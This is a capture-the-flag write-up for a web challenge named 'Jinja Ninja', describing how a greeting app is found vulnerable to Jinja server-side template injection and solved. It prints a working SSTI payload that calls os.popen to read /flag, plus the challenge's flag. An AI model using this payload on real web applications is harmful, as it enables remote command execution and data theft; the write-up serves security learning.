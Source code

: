 # Jinja Ninja

> WTF is a JINJA? Aint it supposed to be NINJA RAHHHHHHHH

## The challenge

Given instance that contains a link to a website. This is what the homepage looks like.

![](images/Pasted%20image.png)

## How to solve

This website functionality is to return (or to greet) what is typed on the textbox. So if I write MCXGenesis ...

![](images/Pasted%20image%20(2).png)

But the highligh is on the description of the below ...

```
How it works

This web app greets you using your input… but beware: the ninja hides power in its template engine.

Can you craft the right input to make the ninja reveal the secret flag hidden at /flag?
```

The description of how it works provides a useful tip. Thus, I searched on browser with keywords such as 'jinja ninja' and 'exploit'. I found an interesting [Medium article by Hacking-Lab](https://medium.com/@hacking-lab/rce-web-application-vulnerability-jinja-template-injection-751f8e08c496) and a few articles regarding that topic.

In summary, jinja templates have a vulnerability of a server side injection that allows Remote Command Execution (RCE).

The payload that i use is

```
{{ config.__class__.__init__.__globals__['os'].popen('cat /flag').read() }}
```

Let's submit the form with the payload

![](images/Pasted%20image%20(3).png)

## The flag
```
HCS{n0w_y0u_h4v3_l34rn3d_ab0ut_SST1_thr0ugh_th1s_ch4ll3ng3_c0ngratzzzzzz_n1nj4_w4r10r_1675c3d7-ec09-4280-be45-4fc0cb0df285}
```